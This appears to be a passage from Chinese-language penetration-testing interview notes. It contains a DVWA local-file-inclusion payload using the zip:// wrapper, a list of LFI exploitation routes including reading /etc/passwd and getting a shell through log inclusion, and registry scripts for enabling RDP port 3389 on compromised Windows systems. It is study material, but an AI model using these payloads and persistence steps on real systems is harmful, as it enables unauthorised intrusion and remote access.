与phar协议类似，需要注意的是**zip://协议仅支持文件的绝对路径**，**同时需要将#编码为%23(zip://绝对路径#子文件名)**

```http
1.  http://192.168.2.79/dvwa/vulnerabilities/fi/?page=zip://D:/phpStudy/WWW/dvwa/hackable/uploads/test.jpg%23test.tx
```

1. 

#### 已知某网站存在LFI(本地文件包含)，但是无法上传任何文件，针对该情况有哪些利用方式

查看敏感文件，如/etc/passwd

爆破目录，用伪协议去读源码

包含本地日志文件getshell，如ssh登录日志

#### 各种系统入侵开启3389的方法

1.**windowsXP,2003下开启3389的方法**

```powershell
Windows Registry Editor Version 5.00 
[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server] 
"fDenyTSConnections"=dword:00000000
[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\Wds\rdpwd\Tds\tcp] 
"PortNumber"=dword:00000D3D 
[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp] 
"PortNumber"=dword:00000D3D
```

2.**windows2000下开启3389的方法**

```powershell
Windows Registry Editor Version 5.00 >>3389.reg 
[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\netcache] >>3389.reg 
"Enabled"="0" >>3389.reg 
[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon] >>3389.reg 
"ShutdownWithoutLogon"="0" >>3389.reg 
[HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer] >>3389.reg 
"EnableAdminTSRemote"=dword:00000001 >>3389.reg 
[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server] >>3389.reg 
"TSEnabled"=dword:00000001 >>3389.reg 
[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\TermDD] >>3389.reg 
"Start"=dword:00000002 >>3389.reg 
[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\TermService] >>3389.reg 
"Start"=dword:00000002 >>3389.reg 
[HKEY_USERS\.DEFAULT\Keyboard Layout\Toggle] >>3389.reg 
"Hotkey"="1" >>3389.reg 
[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\Wds\rdpwd\Tds\tcp] >>3389.reg 
"PortNumber"=dword:00000D3D >>3389.reg 
[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp] >>3389.reg 
"PortNumber"=dword:00000D3D >>3389.reg
```

#### **文件上传中%00截断的原理是什么，利用前提条件是什么**
